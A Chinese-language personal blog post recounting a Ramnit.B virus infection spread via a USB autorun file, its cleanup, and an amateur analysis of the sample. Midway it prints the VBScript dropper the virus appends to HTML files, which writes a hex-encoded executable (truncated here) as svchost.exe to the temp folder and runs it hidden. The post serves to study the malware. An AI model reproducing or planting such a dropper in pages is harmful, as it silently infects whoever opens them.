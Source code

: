 ```yaml
---
layout: posts
title: 对病毒Virus.Win32.Ramnit.B的研究
createTime: 2016-07-18
---
```


## 不作死就不会死

前一段时间在折腾电脑。由于我嫌开的进程多了有点卡，就把Windows Defender给关闭了，关掉后果然很快。有一次要用U盘，插上后发现图标变成文件夹了，顿时感觉不太对劲，糟了！cmd进去dir一下，果然有个autorun.inf，里面指向了一个在U盘根目录下RECYCLED文件夹内一个隐藏文件夹里的可执行文件，文件名还是一串字母！完蛋，中招了。用WinRAR把那个可疑文件打包留作样本，在线杀毒，果然是病毒。我自认为水平还不错，不想重装系统，于是就踏上了一条漫长的杀毒路。



## 土法全盘杀毒

从U盘PE启动电脑，用360急救箱全盘杀毒。虽然前几年360流氓过一阵子，但最近奇虎公司不景气，产品也就没敢那么流氓（猜测），总之是很好用的。睡前挂上全盘扫描，醒来一看：

![扫描结果](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230917419-1449863200.png)

反复杀了几次毒，直到不再有病毒查出。重启由硬盘引导，装上360卫士和杀毒，再查一遍，竟然查出我的网页文件也有毒（后文会详细说到）。幸亏我开了系统还原，还原到两天前的版本，问题解决。最后把这些杀毒软件统统请出硬盘，打开Windows Defender，世界又重归宁静。



## 对病毒样本的深入研究

这是从U盘中捕获的病毒样本：

![样本](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230922591-1044069392.png)

体积很小，那个autorun.inf是自动播放配置文件，病毒就是利用它传播的。上传到某在线杀毒网站检测：
![检测结果1](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230929809-361428692.png)

![检测结果2](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230933325-1268121088.png)

![检测结果3](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230937684-495119374.png)

![检测结果4](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230940622-1194387489.png)

由于我不是什么高级用户，也就无法查看更多的信息。不过仅凭这些表现，我们就可以知道它是一个功能全面的后门程序。首先，它可以寄生在可执行文件中（文件行为·2）；然后通过网络获取控制者的命令，之后的推广软件、盗号、各种门事件就顺理成章了。除此之外，它还自带反虚拟机功能，用以躲避试验。

除了这些，我刚刚提到过它会感染我的网页文件（*.html;*.htm）：

![网页文件感染前后](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230944466-1673405399.png)

这是我的一个网页文件在感染前后的对比。查看被感染后的文件，我在它们的末尾发现了这些奇怪的东西：

	<SCRIPT Language=VBScript><!--
	DropFileName = "svchost.exe"
	WriteData = "4D5A90000300000004000000FFFF0000B80000000000000040000000000000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
	……（此处略）
	5616C467265650000004578697450726F636573730000004472616746696E697368000057696E48656C705700000000000000000000"
	Set FSO = CreateObject("Scripting.FileSystemObject")
	DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
	If FSO.FileExists(DropPath)=False Then
	Set FileObj = FSO.CreateTextFile(DropPath, True)
	For i = 1 To Len(WriteData) Step 2
	FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
	Next
	FileObj.Close
	End If
	Set WSHshell = CreateObject("WScript.Shell")
	WSHshell.Run DropPath, 0
	//--></SCRIPT>

这个VB脚本就是用来释放病毒的。为了避免在某些不支持这类脚本的浏览器上显示出来，病毒设计者还别出心裁地在脚本前后加上了html的注释符“<!-”和“->”。



## 其他的专业分析

我还在Microsoft上看到一些对此类病毒的分析：

+ [Virus: Win32/Ramnit.A](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus%3aWin32%2fRamnit.A)
+ [Virus: Win32/Ramnit.B](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus:Win32/Ramnit.B#tab=1)
+ [Trojan: Win32/Ramnit.C](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Trojan%3aWin32%2fRamnit.C)
+ [Virus: Win32/Ramnit.I](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus%3aWin32%2fRamnit.I)

它们都是一类病毒，有时会同时感染多种。比方说，我就同时感染了Ramnit.A和Ramnit.B。



## 个人观点

直到现在我的一些软件所带的html文件仍然被感染。虽然常见的杀毒软件均可杀查（360直接删文件，360急救箱不完美修复，MSE完美修复），但想要根除仍很麻烦，似乎全盘格式化才是最快的方法。


